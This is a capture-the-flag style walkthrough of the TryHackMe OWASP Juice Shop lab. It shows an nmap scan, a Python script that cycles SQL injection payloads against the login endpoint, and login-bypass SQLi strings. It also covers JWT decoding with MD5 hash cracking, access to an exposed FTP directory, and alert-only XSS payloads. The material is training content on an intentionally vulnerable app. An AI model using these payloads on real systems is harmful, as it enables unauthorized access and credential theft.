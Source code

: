 # OWASP Juice Shop

## Task 1 - Connect To Our Network
```
export IP=10.10.200.134
```

## Task 2 - Configure Burp (If you haven't already)
## Task 3 - Walk Through The Application
Basic nmap scan:
```bash
jeffrowell@kali:~/Documents/TryHackMe/OWASP_Juice_Shop$ sudo nmap -sC -sV -Pn -n -O $IP -oN nmap/initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-15 23:25 MDT
Nmap scan report for 10.10.200.134
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1e:d5:54:a8:17:cc:45:bd:8b:25:34:85:a7:cc:c6:49 (RSA)
|   256 eb:bd:8e:3e:6e:4d:23:ab:a2:09:5a:63:69:ea:83:87 (ECDSA)
|_  256 b1:bf:a7:9f:e3:90:28:ce:a8:aa:10:16:07:f9:82:46 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-robots.txt: 1 disallowed entry
|_/ftp
|_http-title: OWASP Juice Shop
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/15%OT=22%CT=1%CU=32470%PV=Y%DS=2%DC=I%G=Y%TM=5EBF797
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.32 seconds

```

## Task 4 - Injection
1. Log in with the administrator's user account using SQL Injection
Here I started by running a simple SQLi test script to run in the background, while I manually tested some low hanging fruit injections. Here is the script:
```python
#!/usr/bin/python3
import requests
import json
import os
payloads_path = '/opt/PayloadsAllTheThings/SQL Injection/Intruder'
url = 'http://10.10.200.134/rest/user/login'
data = {'email': '', 'password': ''}
for filename in os.listdir(payloads_path):
    with open(payloads_path + '/' + filename, 'r') as payload_handle:
        try:
            lines = [line.replace('\n', '') for line in payload_handle.readlines()]
            for payload in lines:
                if type(payload) is not str:
                    continue
                print('[+] Trying payload\t--->\t' + payload)
                data['email'] = payload
                data['password'] = payload
                response = requests.post(url=url, data=json.dumps(data))
                if response.ok:
                    print('[*] Successfully found SQLi!!!')
                    print('[*] Triggering payload\t--->\t' + payload)
                    exit(0)
                else:
                    print('[-] Request failed\t--->\t' + str(response.status_code))
        except Exception as err:
            print('Error Occured\t--->\t' + str(err))
```
While manually poking around, we found that the injection could be done by passing in something along the lines of:
```
email: ' OR 1=1; --'
password: ' OR 1=1; --'
```
Before diving into these SQLi problems head first, it is always best to start by doing some basic recon and just throwing some basic data into some of the fields. This will hellp determine information about whether to use single or double quotes, hyphen or sharp comments, etc. In the images below, we can see that just by sending in a single wuotes `admin '` we were able to not only tell that the database is SQLite, but also the exact query that is being run on the backend:
![sql_main_error](https://user-images.githubusercontent.com/32188816/82112128-5d0e3980-9707-11ea-8187-c77fde74f33c.png)
![sql_error](https://user-images.githubusercontent.com/32188816/82112146-8cbd4180-9707-11ea-87e0-9d935565ae4a.png)
Using this information it becomes easier to develop a successful payload.

## Task 5 - Broken Authentication
This task will involve looking at exploiting authentication through different logic flaws. When we talk about logic flaws within authentication, we include:
* forgotten password mechanisms
* exploiting bugs in the authentication process

1. reset Jim's password using the forgotten password mechanism - what was the answer to the secret question?
```
samuel
```
Sending the following payload as a POST to the `/rest/user/login` endpoint will allow us to login as Jim, and we can view his authentication token and decode the JWT to get the password hash and crack it with JtR like we did below in question 2 for the admin password.
```json
{"email":"jim@juice-sh.op' OR false; --","password":"' OR 1=1;--"}
```
Jim's password is `ncc-1701`, but we need to find his answer to the security question. Looking up ncc-1701 tells us that it is a starship from Star Trek, so what if we tried some names of characters from Star Trek? The captain of ncc-1701 is James T. Kirk, and the father of James is George Samuel Kirk, Sr. The security question is "Your eldest siblings the middle name", and we can guess that the answer is `samuel`.

2. What is the administrator password?
```
admin123
```
Using Burpsuite (or the browser dev console's network tab) we can obtain the response from a successful admin login via SQLi:
![burp](https://user-images.githubusercontent.com/32188816/82126883-d724d980-976c-11ea-9394-3af86a7e4127.png)
Looking at the format of the response, we get returned a dictionary containing an authentication token. The authentication token looks like it is just base64 encoded, so it is likely a JWT (JSON Web Token). Copying the token and decoding it (here I'm using hwt.io) we can see that encoded in the token is the admin password hash:
![jwt_password_hash](https://user-images.githubusercontent.com/32188816/82126885-d8560680-976c-11ea-9c34-698243b12d1f.png)
Now that we have the hash, we can give that to JtR to crack:
```bash
jeffrowell@kali:~/Documents/TryHackMe/OWASP_Juice_Shop$ echo '0192023a7bbd73250516f069df18b500' >> hash
jeffrowell@kali:~/Documents/TryHackMe/OWASP_Juice_Shop$ /opt/JohnTheRipper/run/john hash --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/JohnTheRipper/run/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
admin123         (?)
1g 0:00:00:17 DONE 3/3 (2020-05-16 11:58) 0.05707g/s 22788Kp/s 22788Kc/s 22788KC/s adv2kkle..admietia
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

## Task 6 - Sensitive Data Exposure

1. Access a confidential document and enter the name of the first file with the extension ".md"
```
acquisitions.md
```
From looking around on the site earlier, there is a "About Us" section that contains a link to "Check out our boring terms of use if you are interested in such lame stuff". Following that link brings us to the `/ftp/legal.md?md_debug=true` endpoint. So what happens if we just try to access `/ftp`? Here is what the result is:
![ftp](https://user-images.githubusercontent.com/32188816/82127311-cb86e200-976f-11ea-918e-4d3a784403bf.png)


## Task 7 - Broken Access Control
1. Access the administration section of the store - What is the name of the page?
```
administration
```

2. Access someone else's basket         
Accessing the `/#/basket` endpoint doesn't always bring you to your basket if you go through the URL instead of clicking the "Your Basket" button.

3. Get rid of all 5 star customer feedback     
Delete the feedback line items on the `/administration` page.


## Task 8 - Cross Site Scripting (XSS)

1. Carry out reflected XSS using Tracking Orders
```
<iframe src="javascript:alert(`xss`)">
```

2. Carry out XSS using the Search field?
```
<iframe src="javascript:alert(`xss`)">
```
